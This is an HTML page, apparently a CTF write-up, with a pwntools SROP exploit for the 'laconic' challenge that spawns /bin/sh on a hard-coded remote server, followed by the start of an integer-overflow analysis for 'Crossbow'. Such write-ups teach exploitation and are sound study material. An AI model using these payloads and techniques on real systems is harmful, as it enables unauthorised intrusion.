 
elf = context.binary = ELF('./laconic')
pop_rax = 0x0000000000043018
syscall = 0x0000000000043015
bin_sh = 0x43238

# io = process()  # Local testing
io = connect('94.237.63.32', 37995)  # Remote connection

frame = SigreturnFrame()
frame.rax = 59  # execve syscall
frame.rdi = bin_sh  # Address of '/bin/sh'
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall  # Call syscall instruction

payload = b'A'*8 + pack(pop_rax) + pack(15) + pack(syscall) + bytes(frame)
print(hex(len(payload)))

io.sendline(payload)
io.interactive()</code></pre>
        </div>
    </div>
</section>
</section>


<section id="back">
    <section id="blueback" class="container">
        <div id="crossbow" class="challenge-section">
            <div class="section-content">
                <b>Name:</b> <span class="text"> Crossbow </span><br>
                <b>Category:</b> Binary Exploitation <br>
                <b>Difficulty:</b> Easy <br>
                <p>
                   <br> In this challenge, we analyze an integer overflow vulnerability that enables memory overwriting, leading to stack pivoting and arbitrary code execution.
                </p>
            </div>
            <div class="section-content">
                <h2>Security Mitigations</h2>
                <h5>Checksec Findings</h5>
                <pre><code class="language-python">RELRO           STACK CANARY      NX           PIE 
Partial RELRO   Canary found    NX enabled    No PIE</code></pre>
                <h3>Security Features</h3>
                <ul>
                    <li><b><code>No PIE</code>:</b> Fixed address space, making ROP easier.</li>
                    <li><b><code>NX Enabled</code>:</b> Prevents direct shellcode execution, requiring ROP.</li>
                    <li><b><code>Stack Canary Found</code>:</b> Protection against stack smashing, bypassed via integer overflow.</li>
                    <li><b><code>Partial RELRO</code>:</b> GOT overwrite is possible but unnecessary for this exploit.</li>
                </ul>
            </div>
            <div class="section-content">
                <h3>Vulnerability Analysis</h3>
                <pre><code class="language-c">if ( (unsigned int)scanf((unsigned int)"%d%*c", (unsigned int)&v18, v6, v7, v8, v9) != 1 )</code></pre>
                <ul>
                    <li><code>v18</code> is a signed integer, and no check is performed for negative values.</li>
                    <li>Providing a negative index allows memory access outside the intended array.</li>
                    <li>Next, the program executes:</li>
                </ul>
                <pre><code class="language-c">v12 = (_QWORD *)(8LL * v18 + a1);
*v12 = calloc(1LL, 128LL);</code></pre>